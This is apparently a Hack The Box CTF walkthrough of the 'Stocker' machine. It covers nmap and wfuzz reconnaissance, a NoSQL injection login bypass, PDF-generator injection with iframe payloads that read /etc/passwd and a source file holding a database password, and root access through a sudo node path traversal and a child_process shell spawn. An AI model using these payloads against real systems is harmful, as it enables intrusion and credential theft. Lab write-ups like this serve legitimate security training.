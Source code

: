 # Stocker - HTB(Easy)
## Itay Nafrin | January 21st, 2023
### IP = 10.10.11.196

### NMAP
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3d:12:97:1d:86:bc:16:16:83:60:8f:4f:06:e6:d5:4e (RSA)
|   256 7c:4d:1a:78:68:ce:12:00:df:49:10:37:f9:ad:17:4f (ECDSA)
|_  256 dd:97:80:50:a5:ba:cd:7d:55:e8:27:ed:28:fd:aa:3b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://stocker.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Subdomain
`$ wfuzz -c -f sub-fighter -w /usr/share/wordlists/SecLists-master/Discovery/DNS/subdomains-top1million-110000.txt -u 'http://stocker.htb' -H "Host: FUZZ.stocker.htb" --hw 93`

```
Target: http://stocker.htb/                               
Total requests: 114441                                                                                                             
==================================================================                                                                 
ID    Response   Lines      Word         Chars          Request                                                                    
==================================================================                                                                 
00019:  C=302      0 L         4 W           28 Ch        "dev"
                                
Total time: 0             
Processed Requests: 114441                                       
Filtered Requests: 114440                                        
Requests/sec.: 0

```

### Enumeration 

After discovering the 'dev' subdomain we enter it to our /etc/hosts after that I entered it in the url and it directed me to a login form after playing with it a little bit trying some default creds, sqli, etc; I checked my wappalyezer extension that said that the web app runs on express meaning node js, so I thought to myself if it's using node it probably uses mongodb as the database manager, so I decided to do some nosql injection techniques. 

#### NoSql Injection

Well as you may know or not(if not read this interesting article about nosqli and how it works https://infosecwriteups.com/nosql-injection-8732c2140576) when injecting nosql you can do it in two ways one with the php adaption where you manipulate the post parameters, and the second is with the json technique where you change the content type to `application/json` and by that the web app will get json parameters. So how to do it:
<br/>
![nosqli](captures/1nosqli.png)

### Keep Enumerating 

After entering the site you got a pretty straight forward site, you add an item to the cart and you purchase it, after purchasing you get a pdf certificate that you indeed purchased the item/s, this is the interesting part. When I see a pdf first thing that comes to mind is Server Side XSS so lets try.

<br/>

![pdfi](captures/2pdfi.png)

Did the same thing with this payload: `<iframe height=750 width=500 src=file:///etc/passwd></iframe>`
got this:

<br/>

![etc-passwd](captures/3etc-passwd.png)

<b>users: root, angoose.</b>

Now, to retrieve the password it was a little more difficult, if you know the linux file system you should know that web apps are located in the `/var/www` directory, now we know that there is a subdomain called 'dev' in the domain so maybe there is a directory that stores the dev subdomains data, we actually got a hint for this in the login part because if you enter this payload: `{"username": {"$gt": undefined}, "password": {"$gt": undefined}}` you get an error and over there you get errors from the directory: `/var/www/dev`. So after we know that we have a dev directory confirmed, now maybe there's a `index.js` because it's a common file in a web directory, so let's check it. Payload: `<iframe height=750 width=600 src=file:///var/www/dev/index.js></iframe>`. There is a file, and in that file a possible password because if you pay attention in the top of the file you can see what might be a password in the line: `const dbURI="mongodb://dev:IHeardPassphrasesArePrettySecure@localhost/dev?authSource=admin&w=1";`
<br/>

### SSH Login

![ssh-login](captures/4ssh.png)

### PrivEsc

Now after logging in and roaming a little bit in the system I want to escalate my privileges so first thing I do, `sudo -l` which displays me my sudo permissions.
<br/>

![sudo-l](captures/5sudo.png)

<br/>

Now after seeing this we know we can execute javascript files from the folder `/usr/local/scripts` we can manipulate this by just navigating(by using ../) to which ever file we want after we write the prefix `/usr/local/scripts`. But we're not finished because we want a root shell how we get let's use the internet for that. Quick search for node in GTFObins and found the command `require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})`. Now lets implement this in our shell.

<br/>

![root](captures/6root.png)
